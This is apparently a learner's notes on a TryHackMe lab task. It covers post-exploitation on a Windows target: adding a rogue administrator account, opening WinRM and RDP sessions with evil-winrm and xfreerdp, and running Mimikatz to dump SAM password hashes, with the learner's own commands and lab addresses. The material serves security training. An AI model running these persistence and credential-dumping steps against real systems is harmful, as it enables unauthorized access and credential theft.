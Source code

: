 In the last task we got remote command execution running with the highest permissions possible on a local Windows machine, which means that we do not need to escalate privileges on this target.

In the upcoming tasks we will be looking at the second teaching point of this network -- the command and control framework: Empire. Before we do that though, let's consolidate our position a little.

From the enumeration we did on this target we know that ports 3389 and 5985 are open. This means that (using an account with the correct privileges) we should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985).

Specifically, we need a user account (as opposed to the service account which we're currently using), with the "Remote Desktop Users" group for RDP, or the "Remote Management Users" group for WinRM. A user in the "Administrators" group trumps the RDP group, and the original Administrator account can access either at will.  

We already have the ultimate access, so let's create such an account! Choose a unique username here (your TryHackMe username would do), and obviously pick a password which you don't use _anywhere_ else.

First we create the account itself:  
`net user USERNAME PASSWORD /add`  

Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:  
`net localgroup Administrators USERNAME /add   
`net localgroup "Remote Management Users" USERNAME /add`

![[Stabilisation & Post Exploitation-20241231140400161.webp]]

We can now use this account to get stable access to the box!

---
As mentioned previously, we could use either RDP or WinRM for this.

> [!Note]
>Whilst the target is set up to allow multiple sessions over RDP, for the sake of other users attacking the network in conjunction with memory limitations on the target, it would be appreciated if you stuck to the CLI based WinRM for the most part. We will use RDP briefly in the next section of this task, but otherwise please use WinRM when moving forward in the network.  


Let's access the box over WinRM. For this we'll be using an awesome little tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

This does not come installed by default on Kali, so use the following command to install it from the Ruby Gem package manager:  
`sudo gem install evil-winrm`

With evil-winrm installed, we can connect to the target with the syntax shown here:  
`evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP`
![[Stabilisation & Post Exploitation-20241231144312710.webp]]

_If you used an SSH portforward rather than sshuttle to access the Git Server, you will need to set up a second tunnel here to access port 5985. In this case you may also need to specify the target port using the -P switch (e.g. -_`i 127.0.0.1 -P 58950`_)._

Note that evil-winrm usually gives medium integrity shells for added administrator accounts. Even if your new account has Administrator permissions, you won't actually be able to perform administrative actions with it via winrm.


---

Now let's look at connecting over RDP for a GUI environment.

There are many RDP clients available for Linux. One of the most versatile is "xfreerdp" -- this is what we will be using here. If not already installed, you can install xfreerdp with the command:  
`sudo apt install freerdp2-x11`

As mentioned, xfreerdp is an incredibly versatile tool with a vast number of options available. These range from routing audio and USB connections into the target, through to pass-the-hash attacks over RDP. The most basic syntax for connecting is as follows:  
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD`

For example:  
`xfreerdp /v:172.16.0.5 /u:user /p:'password123!'`

Note that (as this is a command line tool), passwords containing special characters must be enclosed in quotes.  

When authentication has successfully taken place, a new window will open giving GUI access to the target.

![[Stabilisation & Post Exploitation-20241231144506288.webp]]

That said, we can do a _lot_ more with xfreerdp. These switches are particularly useful:-

- `/dynamic-resolution` -- allows us to resize the window, adjusting the resolution of the target in the process
- `/size:WIDTHxHEIGHT` -- sets a specific size for targets that don't resize automatically with `/dynamic-resolution`
- `+clipboard` -- enables clipboard support
- `/drive:LOCAL_DIRECTORY,SHARE_NAME` -- creates a shared drive between the attacking machine and the target. This switch is insanely useful as it allows us to very easily use our toolkit on the remote target, and save any outputs back directly to our own hard drive. In essence, this means that we never actually have to create any files on the target. For example, to share the current directory in a share called `share`, you could use: `/drive:.,share`, with the period (`.`) referring to the current directory  
    

When creating a shared drive, this can be accessed either from the command line as `\\tsclient\`, or through File Explorer under "This PC":

![[Stabilisation & Post Exploitation-20241231144639079.webp]]

Note that the name of the share will change according to what you selected in the `/drive` switch.

A useful directory to share is the `/usr/share/windows-resources` directory on Kali. This shares most of the Windows tools stockpiled on Kali, including Mimikatz which we will be using next. This would make the full command:  
`xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

---

With GUI access obtained and our Windows resources shared to the target, we can now very easily use Mimikatz to dump the local account password hashes for this target. Next we open up a `cmd.exe` or `PowerShell` window _as an administrator_ (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:  
`\\tsclient\share\mimikatz\x64\mimikatz.exe`

![[Stabilisation & Post Exploitation-20241231144813487.webp]]

> [!Note]
>if you used a different share name, you would need to substitute this in. Equally, if the command errors out, you may need to install mimikatz on Kali with_ `sudo apt install mimikatz`.

With Mimikatz loaded, we next need to give ourselves the Debug privilege and elevate our integrity to SYSTEM level. This can be done with the following commands:  
`privilege::debug   
`token::elevate`

![[Stabilisation & Post Exploitation-20241231145000608.webp]]

If we want we could log Mimikatz output with the `log` command. For example: `log c:\windows\temp\mimikatz.log`, would save the Mimikatz output into the Windows Temp directory. This could also be saved directly into our Kali machine, but be aware that the remote destination must be writeable to the local user running the RDP session.  

We can now dump all of the SAM local password hashes using:  
`lsadump::sam`  

Near the top of the results you will see the Administrator's NTLM hash:

![[Stabilisation & Post Exploitation-20241231145054688.webp]]



# Your job

1. Create an account on the target. Assign it to the `Administrators` and `Remote Management Users` groups.

```
PS C:\GitStack\gitphp> net user Kairos k41ros /add
PS C:\GitStack\gitphp> net localgroup Administrators Kairos /add
PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Kairos /add 
PS C:\GitStack\gitphp> net user Kairos 
```

![[Stabilisation & Post Exploitation-20241231145841448.webp]]

2. Authenticate with WinRM -- make sure you can get a stable session on the target. From your atttacking machine.
```
$ evil-winrm -u Kairos -p k41ros -i 10.200.84.200
```

![[Stabilisation & Post Exploitation-20241231151549863.webp]]


> [!Question]
>3. Authenticate with RDP, sharing a local copy of Mimikatz, then dump the password hashes for the users in the system. What is the Administrator password hash?

On the attacking machine.
```
$ xfreerdp /v:10.200.90.150 /u:Kairos /p:k41ros +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

On Windows Command
```
\\tsclient\share\mimikatz\x64\mimikatz.exe
```

![[Stabilisation & Post Exploitation-20241231152253633.webp]]

On mimikatz.
```
privilege::debug   
token::elevate
```

![[Stabilisation & Post Exploitation-20241231152948965.webp]]

```
lsadump::sam
```

![[Stabilisation & Post Exploitation-20241231153151199.webp]]

> [!Question]
>4. What is the NTLM password hash for the user "Thomas"?

![[Stabilisation & Post Exploitation-20241231153357574.webp]]


